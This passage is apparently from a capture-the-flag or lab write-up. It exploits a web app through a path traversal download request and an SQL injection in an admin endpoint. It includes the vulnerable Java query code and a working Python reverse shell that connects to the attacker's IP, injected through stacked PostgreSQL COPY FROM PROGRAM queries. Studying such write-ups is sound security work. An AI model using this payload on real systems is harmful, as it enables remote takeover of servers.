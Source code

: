 ```python
uuid = session.get(target + '/download?id=..././conf/uuid').text
```

### SQLi: `/admin/users/category?id=`

next, i analyzed the **administrative** functionality. there's a rather glaring SQL injection vulnerability in the `/admin/users/category?id=` parameter.

```java
public List<User> getUsersWithPostsInCategory(String categoryId) throws Exception {
    String sql = "SELECT u.id, u.username, '***' as password, u.isAdmin, u.isActive, u.email " + "FROM users u LEFT OUTER JOIN stories s ON s.owner_id = u.id " + "LEFT OUTER JOIN categories c ON s.category_id = c.id WHERE s.category_id = " + categoryId;
    return this.template.query(sql, new UserRowMapper());
}
```

### reverse shell payload

this query dynamically inserts `categoryId` without any sanitization. using a stacked SQL query, i injected a reverse shell payload that would connect back to my machine, giving me full remote access to the server.

```python
b64payload = base64.b64encode(f'''
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("{IP}", 5555));
os.dup2(s.fileno(), 0);
os.dup2(s.fileno(), 1);
os.dup2(s.fileno(), 2);
pty.spawn("/bin/bash")
'''.encode('utf-8'))

session.get(target + "/admin/users/category?id=1; COPY(SELECT convert_from(decode('" + b64payload.decode('utf-8') + "', 'base64'), 'utf-8')) to '/tmp/shell.py'; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'python3 /tmp/shell.py';")
```

`socket.socket()` creates a new network socket, and `s.connect()` makes the target connect to my IP address over port `5555`. `os.dup()` redirect the standard input, output, and error file descriptors (`0`, `1`, `2`) to the socket `s`. any command executed on the target will be sent back to me via the socket.

`pty.spawn()` spawns a bash shell, which gives me an interactive command-line session on the target. encoding everything in base64 just means i can transmit binary/special characters as plaintext. 

the target URL `/admin/users/category?id=1` is vulnerable to SQL injection via stacked queries. this means i can append + execute additional SQL commands after the legitimate query.

the base64-encoded payload is injected into the SQL query via `id`, after which the query decodes the payload back to the original Python code, and writes the decoded payload to a temporary file `/tmp/shell.py` on the server, using `COPY` (PostgreSQL).

once the payload is in `/tmp/shell.py`, the SQL injection creates + runs the reverse shell by executing `COPY cmd_exec FROM PROGRAM 'python3 /tmp/shell.py'`. this allows the execution of external programs, running the shell script on the target. the commands `DROP TABLE IF EXISTS cmd_exec` and `CREATE TABLE cmd_exec` are just regular commands used to create temporary tables. i included them just to make the query structure valid in PostgreSQL.
